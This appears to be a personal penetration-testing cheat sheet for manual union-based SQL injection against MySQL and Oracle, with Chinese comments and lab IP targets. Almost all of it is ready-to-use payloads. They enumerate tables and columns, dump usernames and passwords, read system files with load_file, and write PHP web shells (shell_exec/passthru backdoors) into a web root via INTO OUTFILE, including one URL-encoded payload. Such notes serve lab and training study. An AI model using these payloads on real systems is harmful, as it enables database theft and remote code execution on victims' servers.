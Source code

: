 ### mysql exploit
mysql 手工注入拖库

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from
information_schema.tables

//column 枚举列数
order by 1/2/3

// union  拼接行，确定显示的列，指定利用的 列 位置
union all select 1,2,3
union all select 1,2,@version  // user(),
union all select 1, 2, table_name from information_schema.tables   // 查表名
// 列名
union all select 1, 2, column_name from information_schema.columns where table_name='users'
// user 表数据
union all select 1, username, password from users

//code execution
http://10.11.0.22/debug.php?id=1 union all select 1, 2,load_file('C:/Windows/System32/drivers/etc/hosts')

// 写入文件
http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'

# write file, pg-medjed
123' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -'
http://192.168.230.127:33033/slug?URL=123%27+UNION+SELECT+%28%22%3C%3Fphp+echo+passthru%28%24_GET%5B%27cmd%27%5D%29%3B%22%29+INTO+OUTFILE+%27C%3A%2Fxampp%2Fhtdocs%2Fcmd.php%27++--+-%27
```

### oracle

http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html

```
//column 枚举列数
order by 1/2/3--

//构造union语句
union select 1,2,3 from dual--

//类型错误null、1 猜解
union select 1,null,null from dual--
union select 1,null,null from dual--

//猜解db等
select ora_database_name from dual
select sys.database_name from dual
select global_name from global_name

//猜解user
select user from DUAL
select user from users

//version
select banner from v$version where rownum=1

//table, column
select table_name from all_tables
select column_name from all_tab_columns where table_name='Your_Table_name_here'
select username||password from table_name_here
```
